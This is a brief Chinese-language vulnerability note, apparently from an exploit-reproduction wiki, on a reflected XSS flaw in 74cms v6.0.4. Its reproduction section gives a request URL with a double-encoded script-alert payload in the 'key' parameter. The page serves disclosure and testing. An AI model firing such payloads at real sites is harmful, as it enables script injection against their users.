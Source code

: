 <h1>74cms v6.0.4 反射型xss</h1>
<h2>一、漏洞简介</h2>
<h2>二、漏洞影响</h2>
<p>74cms v6.0.4</p>
<h2>三、复现过程</h2>
<pre><code>http://www.0-sec.org/index.php?m=&c=help&a=help_list&key=137244gq1lw%253cscript%253ealert%25281%2529%253c%252fscript%253edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88
</code></pre>
